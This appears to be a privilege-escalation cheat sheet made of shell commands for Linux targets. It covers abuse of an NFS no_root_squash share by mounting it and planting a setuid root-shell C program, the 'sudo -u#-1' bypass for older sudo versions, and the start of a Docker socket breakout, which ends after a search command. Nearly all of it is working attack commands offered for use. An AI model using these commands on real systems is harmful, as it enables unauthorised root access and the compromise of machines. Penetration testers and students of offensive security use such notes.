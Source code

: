 ```
cat /etc/exports

```

- > Viewing nfs directories with access - Attacker VM

```
showmount -e <ip>

```

- > Get nfs version - Attacker VM

```
rpcinfo <ip>

```

- > Mount - Attacker VM

```
mkdir /tmp/1
mount -o rw,vers=2 <ip>:/<nfs_directory> /tmp/1

```

- > Creating and compiling file for privesc - Attacker VM

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
gcc /tmp/1/x.c -o /tmp/1/x
chmod +s /tmp/1/x

```

- > Exploitation - VM Owned

```
/tmp/x
id

```

### sudo < v1.28 - @sickrov [PrivEsc]

```
sudo -u#-1 /bin/bash

```

### Docker Breakout [PrivEsc]

- > Search the socket

```
find / -name docker.sock 2>/dev/null

```
